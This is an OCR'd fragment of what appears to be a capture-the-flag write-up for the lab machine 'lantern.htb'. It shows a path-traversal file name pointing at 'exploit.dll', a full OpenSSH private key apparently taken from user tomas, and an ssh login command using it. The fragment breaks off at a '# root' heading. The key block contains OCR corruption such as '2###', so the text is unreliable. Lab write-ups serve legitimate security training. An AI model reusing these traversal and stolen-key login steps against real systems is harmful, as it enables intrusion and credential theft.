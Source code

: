   
  
## the site output this  
  
Name: ../../../../../../../../../../../../../../../../../opt/components/exploit.dll  
  
Last modified: 8/18/2024 1:48:45 AM +00:00  
  
Size (bytes): 4096  
  
Content type: application/x-msdos-program  
  
  
  
## now you can search exploit module and get tomas id_rsa  
  
-----BEGIN OPENSSH PRIVATE KEY-----  
  
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn  
  
NhAAAAAwEAAQAAAYEAsKi2+IeDOJDaEc7xXczhegyv0iCr7HROTIL8srdZQTuHwffUdvTq  
  
X6r16o3paqTyzPoEMF1aClaohwDBeuE8NHM938RWybMzkXV/Q62dvPba/+DCIaw0SGfEx2  
  
j8KhTwIfkBpiFnjmtRr/79Iq9DpnReh7CS++/dlIF0S9PU54FWQ9eQeVT6mK+2G4JcZ0Jg  
  
aYGuIS1XpfmH/rhxm1woElf2/DJkIpVplJQgL8qOSRJtneAW5a6XrIGWb7cIeTSQQUQ/zS  
  
go3BtI9+YLG3KTXTqfvgZUlK/6Ibt8/ezSvFhXCMt8snVfEvI1H0BlxOisx6ZLFvwRjCi2  
  
xsYxb/8ZAXOUaCZZrTL6YCxp94Xz5eCQOXexdqekpp0RFFze2V6zw3+h+SIDNRBB/naf5i  
  
9pTW/U9wGUGz+ZSPfnexQaeu/DL016kssVWroJVHC+vNuQVsCLe6dvK8xq7UfleIyjQDDO  
  
7ghXLZAvVdQL8b0TvPsLbp5eqgmPGetmH7Q76HKJAAAFiJCW2pSQltqUAAAAB3NzaC1yc2  
  
EAAAGBALCotviHgziQ2hHO8V3M4XoMr9Igq+x0TkyC/LK3WUE7h8H31Hb06l+q9eqN6Wqk  
2###beGjWfO7Rzbo+jXq1wcPVh7/0b6Nsbrvu/gyV8La35q7ujrO8CvzIquyOP+Em1eKFrdpp  
  
91Bwx2##g80DpEK+fXvMOB9i2xdqobBL5qr0ZdKksWwC+Ak9+EaSpckj  
  
olQy5/DQCKsBQerid4rWMqTQRJ4LuThULM3pykXS5ZTcnfxk05qAcEv7oIljje/X/yu/aA  
  
7569eG+0IqbVOf6sxPIU1MLwbPD6WRq2qecSf5cBrVwMcbY4tUHEjZj9c18f1uqM1wP8jX  
  
zXIeaAndF2ndQcl/0CihZj9dY2WXRjDwAAAMEAxZv9saLa9LSqx4AvLT2U/a4u8OIepMaN  
  
x6DMDmRu3UY/rq13awL4YsXYF6h4c8V7rSPYAl+HRfnxzlLOK+ALU47n+qKDRcnI47e/Zv  
  
Zry8Yy605aCCKTyQ6O5ppFt1iKkxmUo7glCnrNyvna6dj8qX9hy2qY+sUiUgsLbKz5e9tP  
  
vpPttZZSNoWoBOkcAihJhIrs4GF5fj5t3gR2RA2qGlJ4C2R80Qbv2QAnroevpnoYKko/s9  
  
2VfNjWIV4Eq/DnAAAADXRvbWFzQGxhbnRlcm4BAgMEBQ==  
  
-----END OPENSSH PRIVATE KEY-----  
  
  
  
ssh -i tomas.key tomas@lantern.htb  
  
  
  
# root  
  